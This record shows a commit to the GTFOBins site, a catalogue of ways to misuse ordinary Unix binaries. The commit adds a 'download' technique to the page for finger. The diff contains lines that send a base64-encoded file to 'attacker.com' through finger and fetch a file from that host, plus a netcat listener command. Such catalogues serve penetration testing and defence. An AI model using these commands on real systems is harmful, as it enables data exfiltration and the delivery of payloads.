

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/finger.md, in a window 1280 px wide. Shown: the top 718 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add download to finger

```diff
--- a/_gtfobins/finger.md
+++ b/_gtfobins/finger.md
@@ -8,4 +8,10 @@ functions:
         RHOST=attacker.com
         LFILE=file_to_send
         finger "$(base64 $LFILE)@$RHOST"
+  download:
+    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
+      code: |
+        RHOST=attacker.com
+        LFILE=file_to_save
+        finger x@$RHOST | base64 -d > "$LFILE"
 ---
```
